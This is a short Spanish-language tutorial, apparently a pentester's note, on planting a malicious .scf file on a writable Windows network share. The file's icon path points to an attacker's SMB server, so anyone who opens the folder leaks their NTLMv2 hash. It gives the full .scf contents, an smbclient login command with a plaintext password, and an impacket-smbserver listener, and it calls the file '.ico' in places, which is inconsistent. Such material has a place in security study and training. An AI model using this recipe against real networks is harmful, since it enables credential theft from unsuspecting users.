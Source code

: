# Para que sirve crear un scf malicioso?
En el caso de que nosotros como atacantes tengamos permisos de escritura en algún recurso compartido a nivel de red puede ser muy crítico, la idea es que podemos crear un archivo `.scf` malicioso y subirlo al recurso comparido, el problema es que el icono de carga de estos archivos en el explorador de Windows puede haber sido envenenado por el atacante haciendo que cuando alguien lo vea, sin necesidad de interactuar con el, se comunique con nuestro equipo y obtener su Hash `NTLMv2`.

# Como efectuar el ataque
Primero debemos crear un archivo .ico malicioso que tenga una estructura como esta:
```
[Shell]
Command=2
IconFile=\\192.168.140.45\smbFolder\patucasa.ico
[Taskbar]
Command=ToggleDesktop
```
Despues podríamos conectarnos al recurso compartido a nivel de red en el cual tenermos permisos de escritura con alguna herramienta como smblcient
```
smbclient -U "wizcorp.local\WizzzStark%Password1" //192.168.46.130/SharedFiles
```
Una vez dentro de la sesión interactica podemos subir el archivo con 'put file.ico' y posteriormente nos ponemos en escucha con `smbserver` para crear el recurso que indicamos en el archivo malicioso
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
Y ahora solo toca esperar a que alguien abra el recurso donde está el .ico y obtendremos su `Hash NTLMv2`
